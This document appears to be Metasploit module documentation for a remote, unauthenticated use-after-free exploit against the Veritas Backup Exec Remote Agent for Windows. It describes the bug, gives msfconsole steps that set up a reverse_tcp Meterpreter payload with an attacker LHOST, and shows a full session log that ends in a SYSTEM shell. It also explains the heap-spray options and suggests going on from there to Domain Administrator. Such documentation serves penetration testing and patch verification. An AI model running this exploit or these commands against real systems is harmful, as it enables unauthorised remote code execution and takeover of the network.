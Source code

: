 ## Vulnerability Summary

The Backup Exec Remote Agent for Windows is vulnerable to a use-after-free in
its handling of SSL/TLS-wrapped NDMP connections. If SSL/TLS is established on a
NDMP connection, ended, and finally re-established, the agent will re-use
previously freed SSL/TLS structures. This allows for remote code execution over
an unauthenticated network connection.


## Vulnerable Application

Backup Exec consists of a server component as well as remote agents that are
installed on each host that should be backed up by the server.

There are remote agents available for a range of data sources, including
operating-system level agents for Windows and Linux hosts' local filesystems,
application-specific agents for Microsoft Exchange, SharePoint, Active
Directory, etc., and agents for virtual machines such as VMware or Hyper-V
instances. This exploit targets the Windows OS-level remote agents, which are
the most common type in a typical Backup Exec deployment on a Windows-based
network. The agents are installed as services running by default as the
`NT AUTHORITY\SYSTEM` user.

A trial version of Backup Exec can be downloaded from Veritas' website;
currently the download is available
[here](https://www.veritas.com/trial/en/us/backup-exec-16.html).


## Vulnerability Description

The agent accepts NDMP connections on TCP port 10000. The vendor-specific
`0xF383` NDMP packet type allows for NDMP connections to be wrapped in a SSL/TLS
session. Sub-type `4` initiates the SSL/TLS handshake; after successfully
completing this the client and server continue the NDMP session through the
SSL/TLS session.

The agent makes use of OpenSSL to handle these SSL/TLS sessions. When a SSL/TLS
session is created, the agent creates necessary OpenSSL structures, including a
`struct BIO` from the connection's associated network socket using
`BIO_new_socket`. Upon the end of the SSL/TLS session, this structure is freed
by a call to `BIO_free` through a call to `SSL_free`.

However, if a SSL/TLS connection is then re-established on the same NDMP
connection, the previously freed `BIO` is re-used in the new SSL/TLS session
even though it is no longer allocated. The `BIO` is stored during the first
connection setup and then retrieved during second connection setup as a member
of the `CSecuritySSLConnection` class, despite the call to `SSL_free` previously
freeing it. This leads to a use-after-free as the `BIO` contains a pointer to a
structure (`BIO_METHOD *method`) of function pointers that are used to perform
operations such as reading and writing from the wrapped `BIO` object (in this
case, the network socket).

By overwriting the previously allocated `BIO` with controlled data, it is
possible to gain remote code execution when OpenSSL attempts to call one of
these function pointers.


## Verification Steps

1. Install the Backup Exec server on a host.
2. Install the Backup Exec Remote Agent for Windows on another host, either
   manually or through the server's remote agent installation feature. Note that
   in this contrived test situation you should be sure to let the agent run for
   a few minutes before continuing so it can finish initial startup work that
   otherwise interferes with the exploit's heap manipulation.
3. Start `msfconsole`.
4. Select the module and configure it with, at minimum, the address of the host
   running the remote agent:
   ```
   use exploit/windows/backupexec/ssl_uaf
   set RHOST [REMOTE AGENT HOST]
   ```
5. Check the service is running and potentially vulnerable with the `check`
   command.
6. Select a target version using `set target [TARGET]`.
7. Select a payload and its options; for example:
   ```
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST [METASPLOIT HOST]
   ```
8. Start the exploit using the `exploit` command.
9. Hopefully get a `NT AUTHORITY\SYSTEM` shell :)

An example session is as follows:

```
msf > use exploit/windows/backupexec/ssl_uaf
msf exploit(ssl_uaf) > set RHOST win10
RHOST => win10
msf exploit(ssl_uaf) > check

Hostname: WIN10
OS type: Windows NT
OS version: Major Version=10 Minor Version=0 Build Number=14393 ServicePack Major=0 ServicePack Minor=0 SuiteMask=256 ProductType=1 ProcessorType=AMD64
Host ID: XXXX::XXXX:XXXX:XXXX:XXXX
Vendor: VERITAS Software, Corp.
Product: Remote Agent for NT
Revision: 9.2
[*] win10:10000 The target appears to be vulnerable.
msf exploit(ssl_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Backup Exec 14 (14.1 / revision 9.1), Windows >= 8 x64
   1   Backup Exec 14 (14.1 / revision 9.1), Windows >= 8 x86
   2   Backup Exec 14 (14.1 / revision 9.1), Windows <= 7 x64
   3   Backup Exec 14 (14.1 / revision 9.1), Windows <= 7 x86
   4   Backup Exec 15 (14.2 / revision 9.2), Windows >= 8 x64
   5   Backup Exec 15 (14.2 / revision 9.2), Windows >= 8 x86
   6   Backup Exec 15 (14.2 / revision 9.2), Windows <= 7 x64
   7   Backup Exec 15 (14.2 / revision 9.2), Windows <= 7 x86
   8   Backup Exec 16 (16.0 / revision 9.2), Windows >= 8 x64
   9   Backup Exec 16 (16.0 / revision 9.2), Windows >= 8 x86
   10  Backup Exec 16 (16.0 / revision 9.2), Windows <= 7 x64
   11  Backup Exec 16 (16.0 / revision 9.2), Windows <= 7 x86


msf exploit(ssl_uaf) > set target 4
target => 4
msf exploit(ssl_uaf) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(ssl_uaf) > set LHOST 10.123.1.1
LHOST => 10.123.1.1
msf exploit(ssl_uaf) > exploit

[*] Started reverse TCP handler on 10.123.1.1:4444
[*] win10:10000 - Connecting sockets...
[*] win10:10000 - CA certificate ID = 8120a0e9
[*] win10:10000 - Getting and handling a certificate signing request...
[*] win10:10000 - Agent certificate ID = 430b56d0
[*] win10:10000 - Testing certificate...
[*] win10:10000 - Spraying TLS extensions...
[*] win10:10000 - Entering SSL mode on main socket...
[*] win10:10000 - Spraying TLS extensions...
[*] win10:10000 - Sending stages 2 to 4...
[*] win10:10000 - Closing TLS spray sockets...
[*] win10:10000 - Re-entering SSL mode on main socket...
[*] win10:10000 - Spraying stage 1...
[*] win10:10000 - Triggering UAF, attempt 1/50...
[*] Sending stage (1189423 bytes) to 10.123.1.2
[*] win10:10000 - Spraying stage 1...
[*] win10:10000 - Triggering UAF, attempt 2/50...
[*] Meterpreter session 1 opened (10.123.1.1:4444 -> 10.123.1.2:49748) at 2017-05-23 21:53:07 +1200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```


## Options

Apart from the usual exploit module options such as `RHOST`, the module has a
few exploit-specific options. These should not normally need to be set or
changed from their default values in most situations as the exploit will pick
suitable values for them depending on the target selected.

**NumSpraySockets**
The number of sockets connected to the remote agent in order to spray stage 1 of
the exploit, which should overwrite the freed `BIO`.

**NumTLSSpraySockets**
The number of sockets connected to the remote agent in order to spray TLS
extensions. This is used to massage the low fragmentation heap in order to
increase chances of stage 1 successfully overwriting the freed `BIO`.

**NumTriggerAttempts**
The number of attempts made to trigger the use-after-free for Windows 8+
targets, where it is possible to retry calling the overwritten function pointer
multiple times.


## Scenarios

The Backup Exec Remote Agent for Windows is installed on each host that has
local filesystems that should be backed up. These agents listen on the network
for NDMP connections (on port 10000), appearing in Nmap scans with scripts
enabled as follows:

```
Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-23 20:47 NZST
Nmap scan report for (...)
Host is up (0.0035s latency).
Not shown: 994 filtered ports
PORT      STATE SERVICE            VERSION
(...)
10000/tcp open  ndmp               Symantec/Veritas Backup Exec ndmp (NDMPv3)
|_ndmp-version: ERROR: Script execution failed (use -d to debug)
```

(Note that the `ndmp-version` script fails to execute due to not sending an
`NDMP_CONNECT_OPEN` request before querying version information with the
`NDMP_CONFIG_GET_HOST_INFO` request. This exploit module's `check` command will
carry this query out successfully.)

While the exploit is not guaranteed to gain RCE (see the module's description),
in practise the agent is often widely installed in a Windows domain across a
range of hosts (including fileservers and domain controllers). This means
usually at least one instance of the agent will give a shell on a server where
it's easy enough to further escalate to Domain Administrator from `SYSTEM`.
